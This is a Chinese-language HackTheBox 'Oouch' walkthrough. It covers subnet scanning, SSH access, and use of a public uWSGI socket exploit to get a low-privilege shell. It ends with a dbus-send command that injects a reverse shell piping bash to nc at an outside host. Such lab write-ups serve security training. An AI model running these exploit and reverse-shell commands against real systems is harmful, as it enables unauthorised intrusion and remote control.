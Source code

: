 此配置文件将应用程序的所有者定义为 root，这意味着此应用程序产生的所有进程也将以 root 身份运行，该配置还允许 www 数据用户向其发送和接收数据...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3iaFp4GxKa5knrJhJMlTlbYzObGo8ls78ZDQv8V7j0IdeUFlsSoWujRw/640?wx_fmt=png)

查看了该靶机 IP 地址：172.18.0.1

快速 ping 扫描，以查看该子网上有哪些主机...

可看到存在 1~5 台机器... 我这里利用 nmap 发现了 1 和 4 都是正常设备开放了 22 端口，2、3 是数据库... 开放了 3306 端口..

```
https://github.com/yunchih/static-binaries   --下载nc、nmap等工具...
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3PxicBE06HzABEAkGQLRdicsIaWibFPdN6Nd9GAXqpafaHfKOc4ibPOyzGQ/640?wx_fmt=png)

尝试用 ssh 测试登录，发现 1 和 4 的 IP 是同一个 key.... 登录后在 code 目录下发现了很多配置...

其中描述出了 / tmp/uwsgi.socket 文件信息... 这存在漏洞利用的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3UvD1CXdNVH0vxFibFqCA53E4sibKQmvmFfGcM8Db7S03cEZjKuUA3Vug/640?wx_fmt=png)

直接 google 找 EXP...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n34NDYouTticqoUczTwABJpY13Hswn5CSjbwbvBmB2vWesfD99ibYb1x5w/640?wx_fmt=png)

```
https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py
```

利用 google 搜索的 EXP，下载并上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3jFbOj0f4oBhhIVQXKaZyWo4K0C8vw7lUJSscaYicNO7olUibmkco9Q2A/640?wx_fmt=png)

运行后发现代码错误需要简单修改下 EXP...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3jla58wcibpFMo8oXEtD6XSG5NAnevZgAk9gvoG8ooXOAsUUU8RXzdZA/640?wx_fmt=png)

删除掉红框中的代码即可...

重新上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n36tkqXjHoHgMkibHEzlDia4sOHnV9CImRNe1pibQ1vHOCqhtfsRe1pDRSA/640?wx_fmt=png)

```
python uwsgi_exp.py -m unix -u /tmp/uwsgi.socket -c 'python /tmp/dayushell.py'
```

这里由于下载 github 太慢了... 放弃等待 NC 了，利用简单的 shell 提权外壳吧...

上传后执行即可... 获得了 www 低权外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibnflpzxicM41jicjuUs78n3wzK2hCt066vNKT6tMqibWx3ibhzTVyYAeWhkD0pX3ATxnCnlJahicu61Q/640?wx_fmt=png)

```
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block "string:;rm /tmp/.hackpipe; mkfifo /tmp/.hackpipe; cat /tmp/.hackpipe | /bin/bash -i 2>&1 | nc 172.18.0.1 6666 >/tmp/.hackpipe;"
```
